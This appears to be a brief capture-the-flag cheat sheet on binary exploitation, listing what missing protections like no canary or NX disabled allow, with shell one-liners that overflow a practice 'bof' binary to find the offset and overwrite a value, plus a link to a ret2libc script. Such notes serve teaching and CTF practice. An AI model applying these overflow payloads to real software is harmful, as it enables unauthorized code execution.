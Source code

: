 > No RELRO: Possible to overwrite global variable

> No canary: Possible to smash the stack

> NX disabled: Possible to write and execute from the stack

> No PIE: Virtual address it should use and keeps its memory layout quite static

## Buffer overflow

- `bof guessing offset`

  - `for i in {20..28}; do echo $i; python -c "print 'A' * $i + '\xee\xba\xf3\xca'" | ./bof ; done`
  - `(python -c "print 'A' * 24 + '\xee\xba\xf3\xca'"; cat) | ./bof`

## Return 2 libc

- `ret2libc`

  - [pwntools-code](https://github.com/ByamB4/Capture-The-Flag/blob/master/Binary%20Exploitation/src/return2libc-basic-syntax.py)
